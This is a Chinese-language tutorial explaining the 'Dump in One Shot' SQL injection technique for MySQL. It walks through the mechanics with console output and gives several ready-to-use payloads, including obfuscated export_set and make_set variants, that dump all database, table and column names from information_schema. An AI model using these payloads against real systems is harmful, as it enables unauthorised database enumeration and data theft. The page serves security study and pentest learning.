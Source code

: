 #Dump in One Shot  
Edit by Qsaka  

----  

本文将来介绍Dump in One Shot(DIOS)这种SQL注入手法   

##例子  
先来看一个例子  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where 
    (@a) in (@a:=concat(@a,schema_name,'<br>'))))a)  
    
上面的SQL语句会一次性返回所有数据库的名称  

    +-------------------------------------------------------------------------------------+
    | (@a)                                                                                |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)

**请先仔细想想这条语句是如何执行的，再看下面的分析**  

##原理分析  
先让我们从最内层开始，分析这条语句是如何执行的  

     (@a:=concat(@a,schema_name,'<br>'))  

首先你要知道@a是一个变量。`concat()`将`@a,schema_name,'</br>'`三者进行拼接，`:=`是赋值操作。但是有一点你需要注意，只要`concat()`中有NULL时，都会返回NULL   
    
    mysql> select @a;
    +------+
    | @a   |
    +------+
    | NULL |
    +------+
    1 row in set (0.00 sec)    
    mysql> select (@a:=concat(@a,schema_name,'<br>')) from information_schema.schemata;
    +-------------------------------------+
    | (@a:=concat(@a,schema_name,'<br>')) |
    +-------------------------------------+
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    +-------------------------------------+
    6 rows in set (0.00 sec)
    

所以执行时先要对`@a`进行赋值。这也就是本文例子中为什么要`select(@a:=0x00)`的原因。  

    mysql> set @a:=0x00;
    Query OK, 0 rows affected (0.00 sec)
    
    mysql> select (@a:=concat(@a,schema_name,'<br>')) from information_schema.schemata;
    +-------------------------------------------------------------------------------------+
    | (@a:=concat(@a,schema_name,'<br>'))                                                 |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>                                                             |
    |  information_schema<br>mysql<br>                                                    |
    |  information_schema<br>mysql<br>performance_schema<br>                              |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>                      |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>              |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    6 rows in set (0.00 sec)
    
再看包含这条`concat()`从句的语句  
   
    select (@a) from (information_schema.schemata) where (@a)in (@a:=concat(@a,schema_name,'<br>'))  
    
这是一条SQL中的 where in 语句。但是请仔细想一想，这和通常的 where in 语句是不是有些区别？`@a`既不是一个字段的名称，`in` 后面也不是可能取到的值集合。
好吧，如果你纠结在这里，你就输了（´∀｀*) 。  

    mysql> (select (@a) from (select(@a:=0x00),(select (‘hahaha’) from (information_schema.schemata) where ('biubiubiu') in (@a:=concat(@a,schema_name,'<br>'))))a);
    +-------------------------------------------------------------------------------------+
    | (@a)                                                                                |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)
    
同样返回了所有数据库名称。是不是觉得很神奇(￣▽￣)"。其实`(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))`这条语句的作用仅仅是不断的将schema_name字段中的值追加到`@a`变量中,而不是返回一个*有效的结果集*。最终我们是通过变量`@a`来得到所有的数据库名    

    mysql> (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
    +------------+----------------------------------------------------------------------------------------------------+
    | (@a:=0x00) | (select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))) |
    +------------+----------------------------------------------------------------------------------------------------+
    |            | NULL                                                                                               |
    +------------+----------------------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)
    
    mysql> select @a;
    +-------------------------------------------------------------------------------------+
    | @a                                                                                  |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)  
           

####获取所有的表名  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where (@a)in (@a:=concat(@a,table_name,'<br>'))))a);  
    
####获取非information_schema中的表  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_name,'<br>'))))a)  
    
####获取数据库与表的关系  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_schema,0x3a,table_name,'<br>'))))a)  
    
####一次性返回数据库的所有信息  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)

####进行模糊匹配查询  

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns)where table_schema!='information_schema' and table_name like 'SHOP%' and(@a)in (@a:=concat(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)
 
##更多的DIOS姿势  

    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)  
    
    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))  
    
    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))  
    
    (select 1,make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@))  
 
##Reference  
[DIOS (Dump in One Shot) Explained](http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)  
[DIOS (Dump in One Shot) Explained Part 2](http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-2.html)  
[DIOS the SQL Injectors Weapon (Upgraded)](http://securityidiots.com/Web-Pentest/SQL-Injection/DIOS-the-SQL-Injectors-Weapon-Upgraded.html)  